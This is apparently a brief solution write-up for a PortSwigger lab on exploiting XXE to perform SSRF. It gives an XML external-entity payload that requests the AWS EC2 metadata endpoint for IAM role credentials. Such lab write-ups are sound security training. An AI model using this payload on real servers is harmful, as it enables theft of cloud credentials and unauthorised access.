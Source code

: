 # Lab: Exploiting XXE to perform SSRF attacks

**Link**: https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

**Solution**:

Is to know the place of metadata of AWS EC2 for their official documentation https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/iam-roles-for-amazon-ec2.html
`http://169.254.169.254/latest/meta-data/iam/security-credentials/<role-name>`
so the following code 
```xml
<!DOCTYPE foo [
<!ENTITY test SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin" >
]>
```

<p align="center" width="100%">
  <img src="image1.png" width="800" hight="500"/>
</p>

<p align="center" width="100%">
  <img src="image2.png" width="800" hight="500"/>
</p>
